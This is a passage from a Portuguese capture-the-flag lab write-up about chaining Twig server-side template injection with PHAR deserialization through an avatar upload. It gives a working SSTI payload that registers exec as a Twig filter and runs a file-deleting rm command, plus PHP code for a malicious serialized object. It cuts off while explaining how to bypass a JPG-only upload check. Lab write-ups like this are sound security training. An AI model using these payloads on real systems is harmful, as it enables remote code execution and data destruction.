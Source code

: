 #ctf 

Ao fazer o upload de uma imagem, o link para acessar ela é `/cgi-bin/avatar.php?avatar=wiener`. O diretório `cgi-bin` guarda scripts CGI (Common Gateway Interface) que são programas executáveis que ajudam a fornecer conteúdo dinâmico.

Através deste diretório é possível acessar dois scripts: `CustomTemplate.php` e `Blog.php`.

No código de `Blog.php` é usado um template engine (Twig) que é possível usar um payload de **server-side template injection** para executar um código remoto.

```PHP
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

Criando um código malicioso:

```PHP
class CustomTemplate {} 
class Blog {} 
$object = new CustomTemplate; 
$blog = new Blog; 
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'; 
$blog->user = 'user'; 
$object->template_file_path = $blog;
```

Para enviar esse arquivo, é utilizado a funcionalidade de upload de avatar, porém, ela só aceita arquivos JPG. Para burlar e enviar um PHAR